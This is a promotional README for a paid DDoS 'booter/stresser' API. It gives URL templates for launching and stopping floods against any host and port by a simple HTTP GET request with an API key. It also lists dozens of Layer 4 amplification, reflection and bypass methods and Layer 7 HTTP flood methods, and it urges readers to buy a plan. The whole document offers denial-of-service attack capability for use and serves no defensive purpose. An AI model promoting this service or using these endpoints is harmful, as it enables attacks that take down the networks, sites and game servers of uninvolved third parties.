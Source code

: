 <div align=center>
  
# DDOS / Attack API
  
Working DDOS API For [IP Booter](https://nightmarestresser.net/) / [IP Stresser](https://nightmarestresser.net/) With Layer 4 & Layer 7 Functions Supporting Stopping & Sendind Of Up To 150 Concurrent Floods With A Simple HTTP GET Request, Working In 2023.

![karma](https://i.imgur.com/FerP3kP.png)

Introduction & API Documentation:

API is useful if you wish to implement it into your own software or create your own ip booter / ip stresser, allowing you to launch/stop attacks with a simple HTTP GET request, Only thing needed is for you to register and get a plan that includes API access to get your API KEY on [nightmarestresser.net](https://nightmarestresser.net/)


Send Attack:
https://api.nightmarestresser.net/?key=[KEY]&method=[METHOD]&host=[HOST]&port=[PORT]&time=[TIME]


Stop Attack:
https://api.nightmarestresser.net/?key=[KEY]&method=STOP&host=[HOST]&port=[PORT]&time=[TIME]


Layer 4 Methods
UDP-AMP, SSDP, TCP-AMP, TCP-OVH, TCPBYPASS, TCP-HANDSHAKE, TCP-REFLECT, UDP-BYPASS, UDPBYPASS, TCP-TLS, TCP-RAND, TCP-SYN, NTP, CLDAP, DNS, ARD, WSD, FIVEM, GAME-FIVEM, TCP-DEVICES, CHARGEN, GAME-ARK, GAME-MINECRAFT, TCP-DATA, TCP-ACK, TCP-RAW, TCP-TFO, TCPBYPASSV2, UDP-ABUSE, TCP-ECN, GAME-SOURCE, SOURCEOVH, TCP-IMP, ICMP-AMP, SNMP, DVR, GAME-SAMP	

Layer 7 Methods
ROSETTA, STORM-HTTP, STORM-CONNECT, STORM-BYPASS, HTTP-REQ	

![logo](https://dim.mcusercontent.com/cs/884fc8aa3c2d91b5cfb02efc2/images/49466a15-f998-d9d7-b9a9-c35f214db9f1.png?w=564&dpr=2)
